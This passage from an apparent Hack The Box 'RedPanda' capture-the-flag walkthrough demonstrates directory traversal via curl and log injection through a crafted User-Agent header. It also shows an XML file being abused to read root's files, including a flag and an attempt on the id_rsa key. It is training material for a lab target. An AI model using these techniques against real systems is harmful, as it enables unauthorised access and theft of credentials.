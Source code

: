 ```bash
curl http://10.10.11.170:8080/../../../../../../tmp/masterpiece.jpg
```

As we can see in the logs, the server is taking out the '../' from the request path:

```
woodenk@redpanda:/tmp$ cat /opt/panda_search/redpanda.log
200||10.10.14.137||Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0||/search
200||10.10.14.137||Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0||/search
404||10.10.14.59||curl/7.81.0||/tmp/masterpiece.png
404||10.10.14.59||curl/7.81.0||/error
```

To solve this, we can do the trick in the parsing method. Let's set a user agent with "\|\|" followed by our URI payload, so we add an extra position (5 in total) and now we have control of the position 3 (the URI) with no server interaction, therefore, dots will remain in place:


```java
// Recalling the parsing function
String[] strings = line.split("\\|\\|");
map.put("status_code", Integer.parseInt(strings[0]));
map.put("ip", strings[1]);
map.put("user_agent", strings[2]);
map.put("uri", strings[3]);
```


status_code     ip           user_agent                 uri                            real_uri
404         ||10.10.14.59||**curl/7.81.0||/../../../../../../tmp/masterpiece.jpg**||/copycat


```bash
curl -H "User-Agent: curl/7.81.0||/../../../../../../tmp/masterpiece.jpg" http://10.10.11.170:8080/copycat
```

- Wait for the run_credits.sh to run

And after sometime waiting for the run_credits to run, we get the root.txt

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/redpanda/7_0_root.png" width="90%"/>
</p>


```bash
woodenk@redpanda:/tmp$ cat mir_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE replace>
<userInfo>
  <firstName>John</firstName>
  <lastName>e0136ab5bdf0c600a4f56791d108e1b7</lastName>
</userInfo>
```

``` e0136ab5bdf0c600a4f56791d108e1b7 ```

Now that I have the flag, I tried to get a shell exfiltrating the id_rsa file in the root directory. I don't know if there is such file, but I let the attack running just in case. Modify the XML to target the id_rsa file:

```bash
nano /tmp/mir_creds.xml
```
